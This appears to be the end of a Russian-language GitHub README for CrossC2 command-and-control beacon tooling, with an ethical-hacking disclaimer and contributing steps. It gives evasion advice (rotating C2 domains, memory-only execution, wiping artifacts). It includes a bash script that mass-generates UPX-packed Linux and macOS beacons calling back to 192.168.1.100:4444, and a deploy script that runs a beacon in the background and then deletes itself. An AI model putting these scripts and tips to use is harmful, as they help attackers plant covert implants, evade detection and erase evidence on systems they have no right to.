 - **Используй VPS** с чистой репутацией для C2
- **Ротируй домены** и IP адреса регулярно
- **Кастомизируй C2 профили** под цель
- **Избегай детекции** - используй memory-only execution
- **Очищай артефакты** после работы

## 🏆 Фишки от AKUMA

### 🎪 Массовая генерация beacon'ов:
```bash
#!/bin/bash
# Mass beacon generator by AKUMA

TARGETS=("Linux x64" "MacOS x64" "MacOS M1")
for target in "${TARGETS[@]}"; do
    OS=$(echo $target | cut -d' ' -f1)
    ARCH=$(echo $target | cut -d' ' -f2)
    ./tools/genCrossC2.Linux 192.168.1.100 4444 null null $OS $ARCH ./beacon_${OS,,}_${ARCH,,} upx
done
```

### 🎯 Auto-deployment script:
```bash
#!/bin/bash
# Auto deploy and callback

BEACON="./beacon_linux_x64"
chmod +x $BEACON

# Запуск в фоне
nohup $BEACON > /dev/null 2>&1 &

# Самоуничтожение
sleep 10 && rm -f $BEACON $0 &
```

## 💀 Disclaimer

**ЭТО ИНСТРУМЕНТ ДЛЯ ЭТИЧНОГО ХАКИНГА И ПЕНТЕСТИНГА!**

- ✅ Используй только на своих системах
- ✅ Получай разрешение перед тестированием
- ✅ Соблюдай законы твоей юрисдикции
- ❌ Не используй для незаконных целей

> **"С большой силой приходит большая ответственность. Не будь мудаком!"** - *AKUMA*

## 🤝 Contributing

Нашёл баг? Есть идея крутой фишки? Присылай PR!

1. Fork репозиторий
2. Создай feature branch
3. Коммить изменения
4. Пуш в branch
5. Открой Pull Request
